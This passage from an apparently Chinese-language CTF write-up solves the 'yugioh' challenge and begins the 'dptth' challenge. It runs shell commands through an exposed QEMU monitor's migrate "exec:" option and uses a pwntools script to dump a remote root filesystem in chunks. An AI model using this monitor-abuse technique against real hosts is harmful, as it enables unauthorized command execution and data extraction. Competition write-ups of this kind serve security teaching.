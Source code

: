 ```
flag{SQLITE_WORKS_Well_in_HarmonyOS}
```

### yugioh

本题的文件系统strings后没有flag结果，分析程序，flag应该在远程文件系统中的cards文件夹中，所以想办法把远程的rootfs.img dump下来即可。首先将其base64编码：

```c
migrate "exec: base64 rootfs.img > /tmp/1.txt 1>&2"
```

查看其总共12w行左右，然后分段下载，每次1w行，下载过程中可能不稳定，手工检查一下每个文件是否是1w行：

```python
from pwn import *
#context(log_level='debug')

for j in range(0,13):
    io =remote("172.35.7.37",9999)
    io.send(b"\x01c")
    sleep(10)
    log.success("[shell]")
    f = open(str( j*100 ),'wb')
    for i in range(j*100,(j+1)*100):
        io.sendline(b"")
        io.sendlineafter("(qemu) ",'migrate "exec: cat /tmp/1.txt | tail -n +%s | head -n 100 1>&2"' % str(i*100))
        a = io.recvuntil("tail: error writing")
        print('xuanxuan')
        print(a)
        if a[-19:] == b'tail: error writing':
            print('[+] %s / 1205' % str(i))
            f.write(a[-7719:-19])
            print(a[-789:-19])
        else:
            break
    f.close()
    io.close()
```

然后合并下载的13个文件并base64解码，然后解开文件系统就能找到flag：

```c
➜  cd ./cards 
➜  grep -r "flag" ./
./Right_Leg_of_the_Forbidden_One:flag{Yugioh_Is_Really_FUN!}
./Right_Leg_of_the_Forbidden_One:flag{Yugioh_Is_Really_FUN!}
```

### dptth

虽然本题的qemu也没有关monitor，但无法和qemu直接交互，交互的方式为发送base64编码的HTTP请求，然后由题目脚本转发给题目的webserver。不过发现远程直接发base64编码的`GET / HTTP/1.1\n\n`发现回包中本身就含有hacked，而题目检查回包中是否有hacked：

```python
#!/usr/bin/env python3
import socket
import base64
import os
import time
import atexit

def exit_handler():
    os.system("kill -9 `pidof qemu-system-arm`")

HOST = "192.168.1.10"  # The server's hostname or IP address
PORT = 8008  # The port used by the server
```